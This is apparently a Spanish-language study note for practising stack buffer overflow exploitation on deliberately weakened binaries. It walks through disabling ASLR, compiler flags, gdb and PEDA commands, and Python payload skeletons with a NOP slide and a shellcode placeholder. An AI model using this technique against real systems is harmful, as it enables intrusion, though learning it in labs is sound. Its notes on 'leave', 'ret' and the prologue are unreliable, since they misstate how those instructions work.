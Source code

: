 #Distintos ejercicios para practicar 

<b>Desactivar ASLR:</b>

sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

<b>How to compile:</b> 
gcc prog.c -fno-stack-protector -z execstack

-fno-stack-protector: Deshabilita los stack Canaries

-z execstack: Permite ejecutar código en el stack, marcandolo como ejecutable

-g incluye la tabla de símbolos (útil para funciones de debug)

<b>Algunos recordatorios:</b>

El stack se gestiona con dos registros

rbp: register base pointer -> Se mantiene fijo al inicio del stack
rsp: register stack pointer -> Se actualiza al apilar y desapilar, crece hacia direcciones de memoria inferiores

Instrucciones: 

push: Apilar
pop: desapilar

leave: pop rbx
 
ret: pop rax
     jmp rax

-Al llamar a una función se setea el stack:

push rbp // Metemos la direccíón base del stack
mov rsp,rbp // En un inicio establecemos que rsp = rbp
sub rsp, 0x10 //Reservamos el espacio necesario en el stack

Funciones vulnerables:

1. gets
2. scanf
3. sprintf
4. strcpy
5. memcpy
6. getenv("var") //seteamos la variable con el shellcode

<b>Comados utiles</b>

1.Compilación
How to compile: gcc -fno-stack-protector -z execstack -g


2.Tomar el control del flujo de la aplicación

How to execute: gdb ./a.out
How to run in gdb: r <input>
	           //Setting buffer to argv1
	           r AAAAAAAAAAAAAAAAAAAA
	           r `python -c 'print "A"*72'+"B"*6`
	           r `cat exploit`
	           //Setting buffer to stdin
	           python -c 'print "A"* 44' > exploit
	           r < exploit

How to set breakpoints: b <line> or b <pointer> 
			b 8         b *main+23

Show stack size : p $rbp-$rsp (Mirarlo en el breakpoint)
Show stack content: x/100xb $rsp
Show stack frame info:info frame

GDB-PEDA: Cyclic pattern for Stack Overflow

pattern create 100
pattern arg 100 //set pattern to first argument
pattern offset //give the offset to overwrite RIP 
pattern search 0x4134414165414149


3.Saltando al rip guardado anteriormente 

get previus rip in gdb: info frame

import struct

padding = 'A'*offset
eip = struct.pack("I",<dir>) //For x32 address
      struct.pack("L",<dir>) //For x64 address
payload = "\xCC"*4 // Trap mode instruction, pone el procesador en modo trap 
		   // Ejecuta instrucciones una a una, lo ponemos para verificar que se ejecuta
		   // el salto correctamente
		 
print padding+eip+payload

4.Escribir el exploit (Una vez sepamos que el salto funciona)

import struct

padding = 'A'*offset
rip = struct.pack("L",<dir>) //For x64 address
nop_slide = '\x90' * 100 //No operation, no hace nada simplemente al caer aqui pasaria a ejecutar la siguiente instrucción
                         // Como las variables de entorno y los argumentos de la funcion tienen tamaño variable
			 // puede hacer que las direcciones del stack varie, por lo que como nunca tendremos la certeza
			 // exacta de donde vamos a caer establecemos los nop para tener mas margen de acierto más grande
shell = <shellcode> // shellcode que se ejecutara
			  
Ejecutar el exploit: (python expliot.py;cat ) | ./a.out 
                    // Se añade el cat debido a que sino al pasar la entrada con el pipe
                    // No tendriamos forma de interactuar con la shell
                    
</b>Posibles complicaciones<b>

Es posible que el exploit no te funcione porque las direcciones que muestra gdb sean distintas que las que tiene en un runtime
por lo cual sea necesario modificar la direccion de retorno. Existen scripts que con el ASLR desactivado consiguen hacer
que el stack en gdb sea el mismo que ejecutandolo normalmente

Try Harder!
